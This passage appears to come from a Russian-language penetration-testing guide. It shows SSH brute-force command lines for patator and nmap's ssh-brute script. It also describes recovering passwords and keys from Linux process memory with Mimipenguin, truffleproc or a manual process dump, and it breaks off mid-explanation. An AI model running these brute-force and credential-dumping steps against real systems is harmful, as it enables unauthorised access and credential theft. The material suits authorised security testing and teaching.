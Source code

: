 Пример команды для запуска атаки методом перебора на SSH сервис утилиты patator:

```commandline
patator ssh_login host=192.168.0.1 user=admin password=FILE0 0=/путь/к/файлу_с_паролями.txt -x ignore:fgrep='Permission denied'
```

Пример команды для запуска атаки методом перебора на SSH-сервис утилиты nmap:

```commandline
nmap --script ssh-brute --script-args userdb=usernames.txt,passdb=passwords.txt <target>, где

--script ssh-brute – указывает использование скрипта для перебора паролей ssh.
--script-args userdb=usernames.txt,passdb=passwords.txt – указывает на файлы, содержащие список пользователей и паролей
соответственно.
<target> – целевой IP-адрес или диапазон адресов.
```

Скачать прекомпилированный бинарный файл nmap можно тут

### Восстановление паролей и ключей из памяти процессов

Восстановление паролей и ключей из памяти процессов в Linux реализовано не так разнообразно как в Windows, но тоже
остается возможным. Для этого используются специальные инструменты и подходы.

Пример:
**Mimipenguin** — это инструмент для перехвата паролей из памяти процессов, работающих на Linux-системе. Обычно он
используется для получения паролей, введенных пользователем в терминал, например, паролей от системы или приложений.
После запуска Mimipenguin начнет мониторить процессы в системе и попытается извлечь пароли из памяти процессов. Если он
найдет пароли — он отобразит их в терминале.

Другой пример:
**truffleproc** — это инструмент для перехвата паролей из памяти любых процессов работающих в системе Linux, который
ищет
пароли и ключи API в процессах по регулярным выражениям выполняя выгрузку памяти процесса и анализируя ее.

Ссылка на инструмент: https://github.com/controlplaneio/truffleproc

Вы можете сделать то же самое вручную, выбрав нужный процесс.

Если вы обнаружите, что процесс аутентификации запущен:

# ps -ef | grep "authenticator"

> root 2027 2025 0 11:46 ? 00:00:00 authenticator

Вы можете сделать дамп процесса (например, инструментом memory-dump) и поискать учетные данные в памяти:
